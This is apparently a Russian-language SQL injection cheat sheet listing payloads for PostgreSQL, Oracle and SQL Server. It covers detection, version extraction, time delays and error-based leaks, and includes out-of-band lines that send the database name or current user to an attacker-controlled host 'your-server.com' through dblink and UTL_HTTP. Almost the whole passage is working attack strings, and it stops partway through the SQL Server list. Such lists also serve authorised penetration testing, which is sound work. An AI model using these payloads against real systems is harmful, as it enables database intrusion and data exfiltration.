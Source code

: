 - **Задержка времени:**
```
'; SELECT pg_sleep(5) --
```

- **Вывод конф. данных с ошибкой:**
```
' AND 1=CAST((SELECT current_database()) AS int) --
```

- **Пингуем сервер наш:**
```
'; SELECT * FROM dblink('host='||(SELECT current_database())||'.your-server.com user=test dbname=test', 'SELECT 1') --
```

## Oracle

- **Обнаружение:**
```
'
```

- **Получение версии:**
```
' UNION SELECT banner, NULL FROM v$version --
```

- **Задержка времени:**
```
' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a', 5) --
```

- **Вывод конф. данных с ошибкой:**
```
' AND 1=CAST((SELECT SYS_CONTEXT('USERENV','CURRENT_USER') FROM DUAL) AS int) --
```

- **Пингуем сервер наш:**
```
' || UTL_HTTP.REQUEST('http://'||(SELECT SYS_CONTEXT('USERENV','CURRENT_USER') FROM DUAL)||'.your-server.com') --
```

## SQL Server

- **Обнаружение:**
```
'
```

- **Получение версии:**
```
' UNION SELECT @@version, NULL --
```

- **Задержка времени:**
```
'; WAITFOR DELAY '0:0:5' --
```
